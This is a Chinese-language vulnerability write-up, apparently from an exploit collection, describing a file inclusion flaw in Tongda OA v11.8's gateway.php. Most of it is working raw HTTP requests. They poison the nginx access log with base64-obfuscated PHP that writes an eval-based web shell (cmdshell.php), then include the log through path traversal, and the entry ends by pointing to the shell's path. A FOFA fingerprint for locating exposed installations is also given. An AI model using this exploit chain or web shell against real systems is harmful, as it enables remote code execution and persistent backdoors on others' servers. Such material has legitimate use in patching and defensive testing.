


# 通达OA v11.8 getway.php 远程文件包含漏洞

## 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面


发送恶意请求让日志被记录

```php
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```


在通过漏洞包含日志文件

```php
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```



再次发送恶意请求写入文件

```php
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```


访问写入的文件 `/mac/cmdshell.php`

